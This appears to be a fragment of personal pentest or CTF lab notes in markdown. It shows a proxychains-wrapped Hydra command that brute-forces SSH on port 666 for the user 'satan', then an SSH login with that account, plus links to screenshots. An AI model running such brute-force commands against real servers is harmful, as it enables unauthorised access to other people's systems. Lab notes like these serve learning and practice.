 ##### Bruteforce SSH login with Hydra
```
proxychains hydra -s 666 -t 4 -V -f -l satan -P password_list.txt ssh://6.6.6.6 
```
![Pasted image 20250601121600](../../zzAttachments/Pasted%20image%2020250601121600.png)

##### Login with SSH
```
proxychains ssh satan@6.6.6.6 -p 666
```
![Pasted image 20250605101722](../../zzAttachments/Pasted%20image%2020250605101722.png)
